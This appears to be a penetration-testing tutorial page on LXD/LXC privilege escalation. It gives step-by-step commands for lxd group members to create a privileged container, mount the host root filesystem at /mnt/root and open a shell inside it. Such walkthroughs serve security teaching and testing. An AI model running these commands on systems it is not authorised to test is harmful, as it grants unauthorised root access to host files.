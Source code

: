 ### **INTRODUCTION**

LXD (Linux Containers Daemon) is a next-generation system container manager, designed to manage Linux containers in a more powerful and flexible way than traditional container technologies like Docker. It provides a user-friendly interface for managing containers and virtual machines, offering capabilities that make it suitable for both development and production environments.

### **COMMON SCENARIOS**

1.  Host Path Mounting: Gaining access to the host filesystem from within a container.
2.  Image Import with Elevated Privileges: Using custom container images configured to grant higher privileges.
3.  Misconfigured Container Permissions: Exploiting containers that are started with elevated permissions or insecure settings.

### **EXPLOITING LXC/LXD STEP-BY-STEP**

1.  Check Group Membership, Ensure you are in the `lxd` group.  
    `id`  

    ![](../../../img/Linux-Environment/102.png)
    
2.  We have to run lxd first and follow the prompts as seen below  
    `lxd init`  

    ![](../../../img/Linux-Environment/103.png)
    
3.  Check for the release version, in this scenario I have 18.04  
    `lsb_release -a`  

    ![](../../../img/Linux-Environment/104.png)
    
4.  Create the instance & mount it  
    `lxc init ubuntu:18.04 test -c security.privileged=true`  
    
    ![](../../../img/Linux-Environment/105.png)

    `lxc config device add test whatever disk source=/ path=/mnt/root recursive=true`  
    
    ![](../../../img/Linux-Environment/106.png)
    
5.  Start the instance, and check its running state  
    `lxc start test`  
    `lxc info test`  
    
    ![](../../../img/Linux-Environment/107.png)
    
6.  Now execute bash within the instance  
    `lxc exec test bash`  
    
    ![](../../../img/Linux-Environment/108.png)
    
7.  Access the mounted partition /mnt/root  
    `cd /mnt/root`  
    
    ![](../../../img/Linux-Environment/109.png)